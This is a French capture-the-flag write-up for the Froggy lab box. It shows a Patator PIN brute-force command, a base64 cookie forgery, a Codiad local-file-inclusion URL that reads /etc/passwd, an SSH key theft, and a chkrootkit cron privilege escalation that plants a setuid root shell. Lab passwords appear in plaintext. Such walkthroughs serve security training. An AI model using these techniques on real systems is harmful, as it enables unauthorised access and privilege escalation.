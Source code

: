 # Solution du CTF Froggy de Wizard Labs

Froggie jumped all over the stage that day
------------------------------------------

*Froggy* est un CTF basé Linux proposé sur la plateforme *Wizard Labs*.  

Via un buster avec une liste assez large de paths potentiels on trouve différents dossiers mais surtout une zone membre :  

```plain
/images (Status: 301)
/thumbnail (Status: 301)
/server-status (Status: 403)
/grid (Status: 301)
/memberarea (Status: 301)
```

dans cette zone on peut trouver des pages PHP mais elles nécessitent une authentification :  

```plain
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/test.php (Status: 200)
/update.php (Status: 302)
/database (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/forgot.php (Status: 200)
/editor (Status: 301)
/dashboard.php (Status: 302)
/remove.php (Status: 200)
```

Le script *forgot.php* correspond évidemment à un script de récupération de mot de passe. Il est tout de même assez inhabituel puisqu'il ne demande qu'un PIN.  

Partant du principe qu'un PIN est généralement numérique on peut utiliser Patator pour trouver les PIN qui ne sont pas invalides :  

```bash
patator http_fuzz url='http://10.1.1.56/memberarea/forgot.php' method=POST body='forgotpass=Check&secretpin=RANGE0' 0=int:0-10000 -x ignore:fgrep='Sercet pin not matched'
```

NB: la typo fait partie du challenge.  

Avec un PIN de 0 on obtient un message différent : *Please enter your secret pin to view your password.*  

Hmmm étrange mais pas vraiment utile :-/   

Puisque le site le permet j'ai créé un compte dans cette zone membre et une fois connecté on peut clairement voir un cookie nommé *membersession* qui contient le base64 correspondant au compte que je viens de créer (*devloop*).  

Il suffit d'éditer le cookie pour y mettre le base64 de *admin* puis on retourne sur le dashboard qui nous livre ses secrets :  

> Welcome admin  
> 
>   
> 
> Your Notes : Need to beautify our gallery using '83VbbDGjefTnM9wQ' as Password

Codiadwnage
-----------

Où utiliser ces identifiants ?  

Toujours sous */memberarea* on trouve un dossier nommé *editor* qui est un IDE web baptisé [Codiad](http://codiad.com/).  

Pas grand chose d'intéressant à y voir une fois connecté, toutefois ce soft semble vulnérable :  

```plain
$ searchsploit codiad
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities  | exploits/php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion      | exploits/php/webapps/36371.txt
----------------------------------------- ----------------------------------------
Shellcodes: No Result
```

La faille d'inclusion locale est très facile à exploiter :  

```plain
http://10.1.1.56/memberarea/editor/components/filemanager/download.php?path=../../../../../../../../../../../etc/passwd&type=undefined
```

On note la présence de deux utilisateurs :  

```plain
sysadm:x:1001:1001:,,,:/home/sysadm:/bin/bash
ahmed:x:1002:1002:,,,:/home/ahmed:/bin/bash
```

La clé privée SSH de *ahmed* est récupérable et nous permet d'obtenir notre shell ainsi que le premier flag :)  

On reçoit aussi une notification de réception d'un email :  

```plain
You have mail.
Last login: Sat Feb 23 10:27:50 2019 from 192.168.0.30
ahmed@froggy:~$ mail
-bash: mail: command not found
ahmed@froggy:~$ ls /var/spool/mail
ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed
/var/spool/mail/ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed  -lh
-rwx------ 1 ahmed ahmed 367 Feb 22 14:56 /var/spool/mail/ahmed
ahmed@froggy:~$ cat /var/spool/mail/ahmed
From: SysAdmin <sysadm@localhost.localdomain>
To: Ahmed <ahmed@localhost.localdomain>
Subject: Vulnerable Program

Dear Ahmed !

While I was visiting some hacker websites I discovered an "public exploit " for our anti-rootkit utility ...

It's surely disappointing for us but I did my best to make the exploit unusable for any attacker .

Your Lovely SysAdmin  !!
```

Cuisses de grenouilles
----------------------

Au début je me suis dirigé vers l'idée d'un script custom à exploiter, j'ai donc fouillé un droite à gauche.  

L'utilisateur *sysadm* ne dispose d'aucun fichier vraiment intéressant.  

Après avoir récupéré les identifiants SQL j'ai trouvé le mot de passe admin de la zone membre ainsi que les PINs, ce qui explique le message de tout à l'heure.  

```plain
$ mysql -u membership -p member
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50060
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [member]> show tables;
+------------------+
| Tables_in_member |
+------------------+
| pdo              |
+------------------+
1 row in set (0.00 sec)

MariaDB [member]> select * from pdo;
+----+----------+----------+------------------+-----------+
| id | fullname | username | password         | secretpin |
+----+----------+----------+------------------+-----------+
|  1 | admin    | admin    | Gw-LfcrjC-4hr6>g |         0 |
|  2 | test     | test     | test             |         0 |
|  3 | devloop  | devloop  | devloop          |    123456 |
+----+----------+----------+------------------+-----------+
3 rows in set (0.26 sec)
```

Je suis alors parti sur l'idée que *chkrootkit* soit exécuté via un *crontab* puisque je savais qu'une faille existait pour ce logiciel (forcément ça en a fait rigoler quelques uns).  

Le binaire est bien présent sur le système mais est-il exécuté ? J'ai eu recours une nouvelle fois à mon script de surveillance des process ([voir CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub)) :  

```bash
23961 root /usr/sbin/CRON -f
23962 root /bin/sh -c    chkrootkit
23963 root /bin/sh /usr/bin/chkrootkit
24205 root /bin/echo -n Checking `inetd'...
24466 root grep -E check_global_passwd|panasonic|satori|vejeta|\.ark|/hash\.zk
24492 root /bin/ps auwx
24493 root grep -E xinetd
24494 root grep -E -v grep
24589 root /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
24610 root find /lib /usr/lib /usr/local/lib -name libproc.a
24643 root /usr/bin/find /usr/lib /lib -name .[A-Za-z]* -o -name ...* -o -name .. *
24654 root /usr/bin/find /usr/lib /lib -type d -name .*
24695 root /usr/bin/find /usr/lib -name last.cgi
24708 root /usr/bin/find /usr/lib /usr/bin -name red.tar -o -name start.sh -o -name klogd.o -o -name 0anacron-bak -o -name adore
24777 root /bin/sh /usr/bin/chkrootkit
24778 root /usr/bin/strings /sbin/init
24779 root grep -E HOME
24856 root /bin/sh /usr/bin/chkrootkit
24857 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
24858 root grep -E #!.*php
25025 root /bin/sh /usr/bin/chkrootkit
25026 root find /proc
25027 root wc -l
```

L'exploit présent [sur exploit-db](https://www.exploit-db.com/exploits/33899) indique que chkrootkit va exécuter les scripts présents dans la variable *SLAPPER\_FILES*.  

L'exploit donnait un exemple avec le script */tmp/update* donc au début je ne suis pas allé plus loin mais voyant que rien ne s'exécutait j'ai regardé le code (chkrootkit est écrit en bash) et la liste variable était différente :  

```bash
SLAPPER_FILES="${ROOTDIR}dev/shm/slapper"
```

J'ai donc écrit un script bash à cet emplacement :  

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Cette fois notre script est bien exécuté:  

```bash
2890 root /bin/sh /usr/bin/chkrootkit
2891 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
2892 root grep -E #!.*php
2937 root /bin/netstat -an
2938 root grep -E ^tcp.*LIST|^udp
2939 root grep -E [.:]145[^0-9.:]
--- snip ---
3041 root /bin/netstat -an
3042 root grep -E ^tcp.*LIST|^udp
3043 root grep -E [.:]47889[^0-9.:]
3062 root /bin/sh /usr/bin/chkrootkit
3063 root find /proc
3064 root wc -l
3130 root /bin/bash /dev/shm/slapper
3131 root [cp]
3133 root [chmod]
```

```plain
$ ./devloop_was_here
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
5bbfc6a26697caaaa66b1eefb8d3a1a0699ab51c
```


*Published May 21 2019 at 18 09*